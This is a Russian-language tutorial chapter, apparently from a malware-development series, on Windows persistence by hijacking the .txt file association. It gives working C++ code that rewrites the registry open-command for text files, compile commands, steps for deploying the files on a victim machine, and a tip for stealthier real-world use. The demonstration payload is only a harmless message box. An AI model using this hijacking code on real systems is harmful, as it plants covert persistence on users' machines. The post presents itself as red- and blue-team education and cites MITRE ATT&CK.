 \newpage
\subsection{75. Разработка вредоносного ПО: закрепление (persistence) - часть 9. Перехват ассоциации файлов. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/66/2022-08-29_02-25.png){width="80%"}    

Эта статья является результатом моего собственного исследования одного из интересных методов закрепления вредоносного ПО: перехват ассоциации файлов.    

### ассоциация файлов по умолчанию     

Например, при двойном щелчке по файлу `.txt`, он открывается с помощью `notepad.exe`.     

![pers](./images/66/2022-08-29_02-17.png){width="80%"}    

Windows знает, что необходимо использовать `notepad.exe` для доступа к `.txt` файлам, потому что расширение `.txt` (и многие другие) привязано к приложениям, способным открывать такие файлы, в реестре: `HKEY_CLASSES_ROOT`.

Таким образом, можно перехватить ассоциацию файлов по умолчанию, чтобы выполнить вредоносную программу.     

### практический пример    

Давайте попробуем перехватить `.txt`. В этом случае обработчик расширения `.txt` указан в следующем ключе реестра:     

`HKEY_CLASSES_ROOT\\txtfile\\shell\\open\\command`    

Выполним команду:    

```powershell
reg query "HKCR\txtfile\shell\open\command" /s
```

![pers](./images/66/2022-08-29_02-19.png){width="80%"}    

Затем создадим "вредоносное" приложение:     

```cpp
/*
hack.cpp
вредоносное приложение для закрепления в Windows
через перехват ассоциации файлов
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как видите, логика довольно простая: просто всплывающее окно `meow-meow`.    

На следующем этапе мы перехватываем расширение `.txt`, изменяя значение `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` с помощью этого скрипта:     

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)
  "\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update key
    RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, 
    strlen(cmd));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видно из исходного кода, мы просто заменяем `%SystemRoot%\system32\NOTEPAD.EXE %1` на `Z:\2022-08-26-malware-pers-9\hack.exe`.

### демонстрация

Посмотрим, как это работает. Компилируем наш вредоносный код:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/66/2022-08-29_04-21.png){width="80%"}    

Сгенерированный `hack.exe` необходимо загрузить на машину жертвы.    

Затем компилируем программу, отвечающую за закрепление:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/66/2022-08-29_04-22.png){width="80%"}    

Сгенерированный `pers.exe` также нужно поместить на машину жертвы.     

Затем просто запускаем:    

```powershell
.\pers.exe
```

![pers](./images/66/2022-08-29_02-21.png){width="80%"}    

Теперь пробуем открыть `.txt` файл, например, двойным кликом по `test.txt`:     

![pers](./images/66/2022-08-29_02-22.png){width="80%"}    

![pers](./images/66/2022-08-29_02-24.png){width="80%"}    

Как видно, "вредоносное ПО" успешно выполняется. Отлично! :)    

Затем выполняем очистку:    

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

![pers](./images/66/2022-08-29_02-34.png){width="80%"}    

В реальных вредоносных программах было бы хорошей практикой реализовать эту технику немного иначе, чтобы пользователь-жертва по-прежнему мог открывать оригинальный `.txt` файл, но при этом дополнительно запускал вредоносный код.     

Этот метод закрепления используется фреймворком [SILENTTRINITY](https://attack.mitre.org/software/S0692/) и кибершпионской группой [Kimsuky](https://attack.mitre.org/groups/G0094/). Это вредоносное ПО использовалось в кампании 2019 года против государственных агентств Хорватии неустановленными киберпреступниками.       

Надеюсь, этот пост поможет специалистам синей команды лучше понять данную технику и добавит новый инструмент в арсенал красных команд.    

[MITRE ATT&CK: Change Default File Association](https://attack.mitre.org/techniques/T1546/001/)     
[SILENTTRINITY](https://attack.mitre.org/software/S0692/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)      
[исходный код на Github](https://github.com/cocomelonc/meow/tree/master/2022-08-26-malware-pers-9)       
